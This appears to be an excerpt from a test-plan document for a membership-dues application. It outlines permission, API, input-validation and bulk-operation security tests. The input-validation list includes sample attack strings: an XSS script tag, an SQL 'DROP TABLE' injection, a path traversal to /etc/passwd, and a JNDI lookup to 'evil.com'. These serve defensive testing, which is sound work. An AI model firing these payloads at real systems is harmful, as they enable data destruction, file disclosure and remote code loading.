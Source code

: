 **Database Query Optimization:**
- Complex JOIN operations
- Index usage validation
- Query execution time monitoring
- Result set size handling

### 4. Security Validation Tests (`test_membership_dues_security_validation.py`)

**Permission Control:**
- Role-based access to dues schedules
- Admin vs. Member vs. Guest permissions
- Creation and modification rights
- Cross-member data access prevention

**Sensitive Field Protection:**
- Custom amount reason confidentiality
- Financial information access control
- Hardship case privacy
- Administrative approval tracking

**API Security:**
- Endpoint authentication requirements
- Authorization for sensitive operations
- Payment plan request restrictions
- Data exposure prevention

**Input Validation:**
- XSS prevention (`<script>alert('XSS')</script>`)
- SQL injection protection (`'; DROP TABLE`)
- Path traversal protection (`../../etc/passwd`)
- LDAP injection prevention (`${jndi:ldap://evil.com}`)

**Amount Manipulation Prevention:**
- Negative amount rejection
- Extreme value validation
- Type safety enforcement
- Range checking

**Bulk Operation Security:**
- Mass modification restrictions
- Administrative oversight requirements
- Audit trail creation
- Rate limiting considerations

## Advanced Testing Patterns

### Test Data Factory Integration
- Realistic test data generation
- Proper relationship handling
- Cleanup automation
- Performance-optimized creation
